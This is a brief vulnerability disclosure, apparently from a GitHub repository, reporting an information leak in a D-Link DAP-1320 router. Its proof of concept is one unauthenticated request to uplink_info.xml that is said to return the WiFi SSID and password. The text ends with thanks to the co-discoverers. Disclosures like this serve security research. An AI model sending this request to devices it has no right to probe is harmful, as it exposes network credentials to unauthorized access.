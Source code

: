 #### PoC
http://targetip/uplink_info.xml

you can get the WIFI SSID and password

![poc](https://github.com/dahua966/Routers-vuls/blob/master/DAP-1320/info_leak.png)

#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：
Jian-bin Ye

Wei Xie

Zhen-hua Wang

En-Ze Wang

